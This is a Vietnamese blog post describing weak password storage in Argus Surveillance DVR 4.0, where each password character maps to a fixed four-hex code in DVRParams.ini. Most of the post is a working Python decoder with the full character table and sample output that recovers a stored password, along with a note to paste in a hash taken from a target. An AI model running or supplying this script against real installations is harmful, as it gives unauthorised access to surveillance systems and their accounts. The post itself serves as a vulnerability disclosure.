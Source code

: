 ```yaml
---
title: Bẻ khóa mật khẩu ứng dụng giám sát camera Argus
date: 19/7/2021
layout: single
header:
  teaser: /assets/images/crack.jpg
---
```

## Mô Tả 
Trong một lần gần đây nhất, tôi đã xem `Argus Surveillance DVR 4.0` đang sử dụng mã hóa yếu cho mật khẩu.

+ Phiên bản:  Argus Surveillance DVR 4.0
+ Tác giả: Salman Asad (@deathflash1411)
+ Thử nghiệm: Windows 7 x86 (Build 7601) & Windows 10

## Khai thác  
Argus Surveillance DVR 4.0 đang lưu trữ cấu hình trong một tệp có tên `DVRParams.ini`nằm trong
 `C:\ProgramData\PY_Software\Argus Surveillance DVR`


![](https://i.imgur.com/KYcjQOM.png)
+ Đã tạo một tài khoản thử nghiệm với kiểm tra tên người dùng và kiểm tra mật khẩu

![](https://i.imgur.com/cbwtBsN.png)
+ Cấu hình đang lưu trữ mật khẩu của người dùng dưới dạng băm 

+ Một điều thú vị  là bốn ký tự đầu tiên và bốn ký tự cuối cùng trong mã băm giống nhau `E03B`vì mật khẩu của  đã được kiểm tra trong đó ký tự đầu tiên và ký tự cuối cùng giống nhau `t`

+ Điều này xác nhận rằng `t=E03B` , Tôi đã giả định rằng mỗi ký tự trong mật khẩu có 4 ký tự trong hàm băm
![](https://i.imgur.com/cZhNqwc.png)
+ Thật thú vị, hãy thay đổi mật khẩu thành `1234567890` (10 ký tự)
![](https://i.imgur.com/trhdvQE.png)
+ Đây là hàm băm mật khẩu mới trong `DVRParams.ini`
![](https://i.imgur.com/NM50Tbq.png)
+ Giả định của tôi là đúng vì hàm băm mật khẩu dài chính xác 40 ký tự (10 * 4)

+ Tương tự, tôi đã thay đổi mật khẩu thành `abc...xyz`và `ABC...XYZ`và ghi lại các giá trị cho mỗi ký tự

+ Dựa trên những phát hiện ở trên, tôi đã viết một đoạn mã đơn giản để giải mã hàm băm mật khẩu

Mã khai thác: [exploits/50130](https://www.exploit-db.com/exploits/50130)

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
    print("[!] Error, check your password hash")
    exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
    split.append(pass_hash[index : index + n])

for key in split:
    if key in characters.keys():
        print("[+] " + key + ":" + characters[key])
    else:
        print("[-] " + key + ":Unknown")

```
```powershell
#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] 418D:d
[+] B740:e
[+] F641:a
[+] E03B:t
[+] 956B:h
[+] E1D0:f
[+] 3F7E:l
[+] F641:a
[+] 9083:s
[+] 956B:h
[+] ECB4:1
[+] 53D1:4
[+] ECB4:1
[+] ECB4:1

```

Lưu ý: thay thế giá trị của `pass_hash`trong tập lệnh bằng mã băm mật khẩu bạn lấy được từ `DVRParams.in`

## Cảm Ơn :D


